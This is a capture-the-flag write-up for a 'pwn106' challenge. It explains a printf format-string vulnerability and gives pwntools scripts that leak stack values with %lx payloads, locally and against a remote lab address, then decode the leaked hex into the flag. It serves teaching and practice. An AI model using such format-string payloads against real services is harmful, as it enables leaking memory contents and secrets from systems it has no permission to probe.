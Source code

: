 # Challenge Name: pwn106 

**Category:** pwn

# Approach

Let's try run the program

We cannot overflow the program . Let's try give %x as input
we received an address. This is printf vulnerabilies



Looking at the calling convention for 64bit linux

![alt text](images/pwn106.png)

![](images/pwn106-1.png)

We can see that the flag is being in the code. So lets try to reveal the flag by using %lx to search the position of the flag

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = process()

payload = "%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx"

p.recv()
p.sendline(payload)
print(p.recv())
```
We get the output
```
b'\nThanks 7ffc99b72230.0.0.ff.7fb54cfb4b30.5b585"8587b4d4854.6465725f67616c66.58585d6465746361.7d58.2e786c25286c252e786c25.2e786
```
We can see that the 5b5858587b4d4854.6465725f67616c66.58585d6465746361 is in the position of 6,7 ant 8th. So we change our script 

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = process()

payload = "%6$lx.%7$lx.%8$lx"

p.recv()
p.sendline(payload)
print(p.recv())
```

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = remote("10.10.126.95",9006)

payload = "%6$lx.%7$lx.%8$lx"

p.recv()
p.sendline(payload)
print(p.recv())
```

# Last exploit
```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = remote("10.10.126.95",9006)
# p = process()

payload = "%6$lx.%7$lx.%8$lx.%9$lx.%10$lx.%11$lx"

p.recv()
p.recv()
p.sendline(payload)
output = p.recv().strip().split(b" ")[1].split(b".")

flag = ""
for word in output:
	flag += bytes.fromhex(word.decode("utf-8"))[::-1].decode("utf-8")

print(flag)
```

Here we change to payload to take till position 11th since the flag is long